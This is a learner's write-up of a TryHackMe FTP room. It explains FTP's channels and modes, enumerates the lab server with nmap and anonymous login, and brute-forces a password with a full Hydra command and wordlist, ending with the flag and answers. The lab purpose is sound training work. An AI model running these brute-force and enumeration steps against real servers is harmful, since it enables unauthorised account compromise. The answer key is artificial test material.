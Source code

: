 ## FTP
A typical FTP session operates using two channels:
- A common channel
- A data channel

FTP operates using a client-server protocol. The client initiates a connection with the server, the server validates whatever login credentials are provided, and then opens the session.

Active vs Passive
- Active: The client opens a port and listens. The server is required to actively connect to it.
- Passive: The server opens a port and listens, and the client connects to it.
   
This separation of command information and data into separate channels is a way of being able to send commands to the server without having to wait for the current data transfer to finish. If both channels were interlinked, you could only enter commands between data transfers, which wouldn't be inefficient for large file transfers or slow internet connections.

Question: What communication model does FTP use?
Answer: client-server

Question: What's the standard port?
Answer: 21

Question: How many modes of FTP connection are there? 
Answer: 2


## Enumerating FTP
10.10.114.131
User: Anonymous
![image](https://github.com/Shawn-Nichol/TryHackMe/assets/30714313/7d978033-35c7-45d8-b10b-0b47219ca59a)


Question: How many ports are open on the target machine?
Answer

Question: What port is FTP running on?
Answer:

Question What variant of FTP is running on it?
Nmap -A </br>
![image](https://github.com/Shawn-Nichol/TryHackMe/assets/30714313/100b6aad-d569-4d07-a81b-2fa904122cae)

Answer: VSFTPd

What is the name of the file in the anonymous FTP directory?
ftp 10.10.114.131
user: Anonymous
password: none

View directory
```
dir
```

Answer: PUBLIC_NOTICE.txt

What do we think a possible username could be?
Download the file and read the file
```
get PUBLIC_NOTICE.txt
cat PUBLIC_NOTICE.txt
```

Answer: Mike

## Exploiting FTP

Hydra to brute force the password. 
Hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 FTP

- Hydra runs the Hydra tool
- t 4 Number of parallel connections per target
- l [user] Points to the user whose account you're trying to compromise
- P [path to dictionary] Points to the file containing the list of possible passwords
- vV Sets the verbose mode to very verbose, shows the login+pass combination for each attempt
- [machine IP] TH address of the target machine.
- ftp/protocol Sets the protocol.

![image](https://github.com/Shawn-Nichol/TryHackMe/assets/30714313/1659805a-d8f9-457d-93bb-70313be76831)


Question: What is the password for the user Mike?
Answer: Password

Question: What is ftp.txt?
Connect to FTP, log in as mike, list dir, and get the ftp.txt file.
```
ftp 10.10.114.131
user: mike
Password: password
dir
get ftp.txt
```
Answer: THM{y0u_g0t_th3_ftp_fl4g}


